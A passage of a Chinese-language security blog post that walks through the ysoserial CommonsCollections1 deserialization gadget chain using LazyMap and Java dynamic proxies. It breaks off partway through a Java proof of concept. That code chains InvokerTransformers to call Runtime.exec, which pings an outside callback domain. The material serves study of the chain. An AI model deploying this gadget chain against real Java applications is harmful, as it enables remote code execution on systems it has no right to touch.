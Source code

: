 ```yaml
---
layout: mypost
title: "Dynamic Proxy 's CommonCollections1链"
categories: [Java安全]
---
```


## 前言

翻阅 ysoserial 中 CommonsCollections1 的源码，看它的 EntryClass、Gadget、Sink 如下-->

![](image-77.png)

可以发现它与之前这篇文章`低版本RCE链-CommonCollections1链`中的 EntryClass、Sink 都是一样的，主要不同的是它 Gadget 中用到的是 LazyMap 而不是 TransformedMap。如题走 LazyMap 这条 Gadget 需要 Dynamic Proxy（动态代理）的支持。

## 温故知新

之前用 TransformedMap 主要就是用它的这个地方，也就是 checkSetValue 中的 transform 函数-->

![](image-78.png)

而 LazyMap 中也调用了一个 transform 函数，如下-->

![](image-79.png)

这个 factory 是可控的，也是一个 protected 方法

![](image-80.png)

同样的也是通过 decorate 函数去调用

![](image-81.png)

写一下现在的 gadget 到 sink-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
```